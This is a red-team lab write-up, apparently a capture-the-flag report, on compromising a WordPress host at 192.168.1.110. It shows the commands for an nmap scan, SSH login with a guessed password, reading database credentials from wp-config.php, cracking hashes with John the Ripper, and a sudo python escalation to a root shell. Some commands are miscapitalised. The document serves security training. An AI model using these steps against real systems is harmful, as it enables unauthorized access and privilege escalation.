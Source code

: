 # **Red Team: Summary of Operations**

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

nmap -sV 192.168.1.110

![1](/Images/1/1.png)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information of vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

### TARGET 1

Vulnerability | Description | Impact
---|---|---
**CWE-200** | Exposure of sensitive Information to an unauthorized actor | Allowing sensitive information to be compromised so easily can result in a breach that can have significant affects on your business
**CWE-521** | Weak Password Requirements | Not enforcing a password policy allows users to choose passwords that they can easily remember which are not typically secure.
**CWE-284** | The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. | A user is able to execute elevated commands when they were not preauthorized to do so
**CWE-98** | An improper control of filename for include or require statement in PHP allows a LFI allowing remote attackers to execute arbitrary code | An attacker can execute commands on the web server remotely  allowing them to further compromise the target.

---

# Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**flag1:**  `flag1{b9bbcb33e11b80be759c4e844862482d}`

- **CWE-200** Exposure of sensitive Information to an unauthorized actor
    
    1. On google chrome input the `Url: 192.168.1.110/service.html`
    2. Right click / view page source code / click on 3 dot menu
    3. Search: flag1

     **Flag1**

    ![2](/Images/1/2.png)

---

**flag2:** `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`

- **CWE-521:** Weak Password Requirements

    Access to the system was obtained through this weakness. The product does not require users to use strong passwords. This vulnerability makes it easier for attackers to compromise user accounts. User Michael utilizes his username as a password. Hydra can easily brute-force the password. Nevertheless, guessing the password was the efficient choice.
    
    Exploit:

    ```
        ssh michael@192.168.1.110
        Password: michael
        Cd ../../
        Find -iname “*flag*” 2>/dev/null
        Cat /var/www/fllag2.txt
    ```

    **Flag2**

    ![3](/Images/1/3.png)

---

**flag3:**  `flag3{afc01ab56b50591e7dccf93122770cd2}`

- **CWE-284** Server does not properly restrict access to a resource

    Privilege escalation is preceded by this vulnerability. The root password to access the SQL database is reachable in plain text on the file wp-config.php
    
    Exploit:
    ```
    Nano wp-config.php
    Look down mysql database password
    mysql -u root -p
    Password: R@v3nSecurity
    ```

    ![4](/Images/1/4.png)

    ```
    mysql -u root -p
    mysql> show databases;
    mysql> use wordpress;
    mysql> show tables;
    mysql> select * from wp_posts;
    ```

    **Flag3**

    ![11](/Images/1/11.png)  

    >#### note: Flags 3 and 4 can be found in different ways. At the end of this report is a summary of other methods to access flag3 and flag4.

---

**flag4:**  `flag4{715dea6c055b9fe3337544932f2941ce}`

- **CWE-284** Improper Access Control

    Privilege on the system is obtained in this step after cracking the hashed password of a privileged user found in the SQL database. This allows to execute a Python Script that leads to a root access to the system.

    **CRACKING THE HASH PASSWORD**

    Exploit:

    1. In the sql database run: 

        ```
            mysql> show databases;
            mysql> use wordpress;
            mysql> show tables;
            mysql> SELECT* FROM wp_posts;
        ```

        ![5](/Images/1/5.png)

    2. Create a file with the hashes and usernames in john the ripper format

        ![6](/Images/1/6.png)

        ```
        John hashes.txt -wordlist=’usr.share/wordlist/rockyou.txt’
        ```

        ![7](/Images/1/7.png)

    **PRIVILEGE ESCALATION USING A PYTHON SCRIPT**

    The user Steven has python root access. This led to a root privilege escalation.

    Exploit:

    ```   
    su steven
    Password: pink84
    sudo -l  
    ```
    
    ![8](/Images/1/8.png)

    Steven has the privilege to run python language as a root user
    
        sudo python -c 'import pty;pty.spawn("/bin/bash")'
 
    ![9](/Images/1/9.png)
    
        cat /root/flag4.txt
    
    **Flag4**

    ![10](/Images/1/10.png)

***

# Alternative methods to access flag 3 and 4

## SQL database: **Flag 3 and 4**

```
mysql -u root -p
mysql> show databases;
mysql> use wordpress;
mysql> show tables;
mysql> select * from wp_posts;
```

  **Flag3 and Flag4**
 
![11](/Images/1/11.png)

## Binary File: **Flag 3**

1. Needs to be Root
2. In the directory:  /var/lib/mysql 

    ```
    grep -r flag3 *
    nano lib_logfile0
    ctrl w flag3
    ```

**Flag3**

![12](/Images/1/12.png)

> Others Exploits:
CVE-2014-6271 Shellshock vulnerability. It is possible to gain shell access through Remote code execution.